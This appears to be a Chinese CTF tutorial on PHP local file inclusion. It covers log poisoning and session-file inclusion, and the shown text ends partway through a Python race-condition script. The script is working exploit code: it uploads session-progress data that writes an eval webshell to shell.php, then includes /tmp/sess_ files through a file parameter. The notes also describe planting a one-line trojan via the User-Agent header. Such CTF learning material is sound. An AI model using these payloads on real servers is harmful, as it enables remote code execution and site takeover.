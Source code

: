 'filename' 是要包含的文件的路径和名称

## 文件操作函数

> 常见的文件包含函数如下1 include **2 require** 3 include_once 4 require_once 5 highlight_file 6 show_source **7 file** **8 readfile** 9 file_get_contents 10 file_put_contents 11 fopen  将一个文件的内容包含到另一个文件  ，在文件包含时可以搭配使用php伪协议打一套组合拳

## 本地文件包含


### 日志包含

本地文件包含常配合文件上传，图片马，日志包含等进行利用，`文件上传`在这里省略，讲一下日志包含

访问日志（access.log）：  

> Nginx  
> 默认的日志文件目录通常位于/var/log/nginx/access.log 

> Apache 
> - 对于Ubuntu/Debian系统，通常位于/var/log/apache2/access.log
> - 对于CentOS/RHEL系统，通常位于/var/log/httpd/access_log

在f12浏览器调试下，可以看到服务器类型，ctfshow中靶机是nginx，大多数可以这么判断，在一些时候网站可能是nginx反代其他web服务器apache、tomcat等等，可以通过404等报错页面判断web服务器

nginx日志文件目录/var/log/nginx/access.log，对于当前网页的相对路径不确定，用../试试，../../../三级时可以访问到日志文件，使用post在报文的UA值中写入一句话木马，或phpinfo函数，试试看能否写入日志文件

### session包含

[参考](https://www.freebuf.com/vuls/202819.html)

session是网站web的一个无后缀文件，当开启session时，服务器会在临时目录下创建session文件来保存会话信息，文件名格式为sess_PHPSESSID。一般的linux会将session保存在其中的某一个目录下：

```
/var/lib/php/
/var/lib/php/sessions/
/tmp/
/tmp/sessions/
```

一般在/tmp目录下

用户可以自定义创建session，实现**session文件包含----条件竞争脚本**

```python
import io
import requests
import threading

url = '替换url'
sessionid = 'hacker'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':"<?php file_put_contents('/var/www/html/shell.php','<?php eval($_POST[1]);?>');?>"},
        files={'file':('1.jpg',fileBytes)}
        )

def read(session):
    while True:
        session.get(url+'?file=/tmp/sess_'+sessionid) # 进行文件包含
```